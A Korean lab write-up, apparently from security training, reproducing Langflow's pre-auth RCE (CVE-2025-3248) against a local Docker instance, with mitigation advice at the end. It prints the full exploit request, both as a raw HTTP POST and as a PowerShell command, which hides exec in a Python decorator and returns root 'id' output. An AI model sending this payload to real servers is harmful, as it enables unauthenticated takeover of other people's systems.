


# Langflow validate/code API pre-Auth Remote Code Execution (CVE-2025-3248)

> 화이트햇 스쿨 3기 - 권석재 @seokjea

## **요약**

Langflow 1.3.0 이전 버전의 /api/v1/validate/code API에서는 사용자 입력을 파싱한 뒤 exec 함수로 실행하는 구조를 가지고 있어, Python의 데코레이터 
또는 기본 인자 표현식에 악성 코드를 삽입함으로써 인증 없이 원격 코드 실행(RCE)이 가능하다.
공격자는 서버 권한으로 임의 시스템 명령어를 실행할 수 있으며, 서버 내부 정보 탈취 및 추가 공격으로 이어질 위험이 있다.

## 환경 구성 및 실행

- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- (your-ip:7860) http://localhost:7860/ 접속
- 쿼리 실행하여 id 명령어 실행됐는지 확인

## 취약점 재현 방법

### BurpSuite를 통한 요청 시도

- BurpSuite Repeater를 사용하여 POST 요청을 시도하였으나,
- "Failed to connect to localhost" 에러 발생
- 원인: BurpSuite와 Docker 네트워크 분리 문제
- 조치: PowerShell의 `Invoke-WebRequest`로 직접 요청 전환

- #### BurpSuite 전송 Payload (초기 시도)

POST /api/v1/validate/code HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{"code": "@exec(\"raise Exception(**import**('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}

### PowerShell을 통한 직접 요청 (Invoke-WebRequest 사용) 재현 성공

Invoke-WebRequest -Uri "http://localhost:7860/api/v1/validate/code"   `-Method POST`
-ContentType "application/json" `
-Body '{"code": "@exec(''raise Exception(**import**(\"subprocess\").check_output([\"id\"]))'')\ndef foo():\n    pass"}'

## 결과

서버에서 id 명령어가 실행되어

uid =0(root) 결과를 반환받아  코드가 실행된 것을 확인하였다.

## 정리

Langflow `/api/v1/validate/code` API의 취약점은 코드 검증 과정에서 사용자 입력을 안전하게 처리하지 않고 `exec` 함수로 실행함으로써, 
인증 없이 임의 시스템 명령어를 실행할 수 있는 위험성을 보여준다. 이로 인해 서버 권한 탈취, 내부 정보 노출, 추가 공격이 가능해진다. 
이러한 문제를 예방하기 위해서는 사용자 입력에 대한 엄격한 검증, 위험 함수(exec 등) 사용 금지, AST 기반 화이트리스트 필터링 적용, 
그리고 소프트웨어를 최신 버전으로 업데이트하는 등의 보안 조치가 반드시 필요하다.
